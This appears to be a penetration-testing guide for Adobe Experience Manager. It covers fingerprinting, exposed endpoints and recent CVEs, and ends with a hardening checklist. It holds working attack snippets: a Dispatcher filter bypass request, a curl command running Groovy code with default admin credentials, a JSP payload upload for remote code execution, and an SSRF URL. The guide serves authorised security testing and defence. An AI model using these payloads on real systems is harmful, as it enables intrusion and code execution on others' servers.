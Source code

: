 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, part of the Adobe Experience Cloud) is an enterprise CMS that runs on top of Apache Sling/Felix (OSGi) and a Java Content Repository (JCR).  
> From an attacker perspective AEM instances very often expose dangerous development endpoints, weak Dispatcher rules, default credentials and a long tail of CVEs that are patched every quarter.

The checklist below focuses on **externally reachable (unauth) attack surface** that keeps showing up in real engagements (2022-2025).

---

## 1. Fingerprinting

```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```

Other quick indicators:
* `/etc.clientlibs/` static path present (returns JS/CSS).  
* `/libs/granite/core/content/login.html` login page with the “Adobe Experience Manager” banner.  
* `</script><!--/* CQ */-->` comment at the bottom of HTML.

---

## 2. High-value unauthenticated endpoints

Path | What you get | Notes
---- | ------------- | -----
`/.json`, `/.1.json` | JCR nodes via **DefaultGetServlet** | Often blocked, but *Dispatcher bypass* (see below) works.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Leak of page tree, internal paths, user names.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix console | 403 by default; if exposed & creds found ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Package Manager | Allows authenticated content packages → JSP payload upload.
`/etc/groovyconsole/**` | AEM Groovy Console | If exposed → arbitrary Groovy / Java execution.
`/libs/cq/AuditlogSearchServlet.json` | Audit logs | Information disclosure.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs dump | XSS vector.

### Dispatcher bypass trick
Most production sites sit behind the *Dispatcher* (reverse-proxy). Its filter rules can be bypassed by appending an allowed static extension **after a semicolon or encoded newline**:

```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
A single request like above frequently discloses user profile nodes with email addresses. P-T Partners published good guidance on this weakness. 【】

---

## 3. Common misconfigurations (still alive in 2025)

1. **Anonymous POST servlet** – `POST /.json` with `:operation=import` lets you plant new JCR nodes.  Blocking `*.json` POST in the Dispatcher fixes it. 【】
2. **World-readable user profiles** – default ACL grants `jcr:read` on `/home/users/**/profile/*` to everyone.
3. **Default credentials** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** enabled ⇒ reflected XSS via `?debug=layout` (CVE-2016-7882, still found on legacy 6.4 installs).
5. **Groovy Console exposed** – remote code execution by sending a Groovy script:
   ```bash
   curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
   ```

---

## 4. Recent vulnerabilities (service-pack cadence)

Quarter | CVE | Affected | Impact
------- | --- | -------- | ------
Dec 2024 | **CVE-2024-43711** | 6.5.21 and earlier | Improper input validation → **Arbitrary code execution** (requires low-priv auth). 【】
Dec 2024 | CVE-2024-43724/26 | 6.5.21 and earlier | DOM / Stored XSS in Move Page Wizard. 【】
Dec 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | DOM-based XSS via crafted URL. 【】
Dec 2022 | CVE-2022-30683 | ≤ 6.5.13 | Crypto design flaw → secret decryption (needs low-priv creds). 【】

Always check the *APSB* bulletin matching the customer’s service-pack and request the latest **6.5.22** or *Cloud Service 2024.11*.

---

## 5. Exploitation snippets

### 5.1 RCE via dispatcher bypass + JSP upload
If anonymous write is possible:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Now request `/content/evil.jsp` – the JSP runs with the AEM process user.

### 5.2 SSRF to RCE (historical < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`  
`aem_ssrf2rce.py` from **aem-hacker** automates the full chain. 【】

---

## 6. Tooling

* **aem-hacker** – Swiss-army enumeration script, supports dispatcher bypass, SSRF detection, default-creds checks and more.  
  ```bash
  python3 aem_hacker.py -u https://target --host attacker-ip
  ```【】
* **Content Brute-force** – recursively request `/_jcr_content.(json|html)` to discover hidden components.
* **osgi-infect** – upload malicious OSGi bundle via `/system/console/bundles` if creds available.

---

## 7. Hardening checklist (for your report’s recommendations)

1. Keep instance on the **latest cumulative service pack** (as of Jul 2025: 6.5.22).  
2. Remove/rotate default accounts; enforce SSO/SAML.
3. Tighten **Dispatcher filters** – deny `;`, encoded newlines, and `*.json` or `*.querybuilder.json` for anonymous users.
4. Disable or protect consoles (`/system/console`, `/crx/*`, `/etc/groovyconsole`) with IP allow-lists.
5. Apply the *Anonymous Permission Hardening* package shipped by Adobe.



## References

* Adobe Security Bulletin APSB24-69 – “Security updates for Adobe Experience Manager (Dec 2024)”.
* 0ang3el – aem-hacker tool (GitHub).
{{#include ../../banners/hacktricks-training.md}}
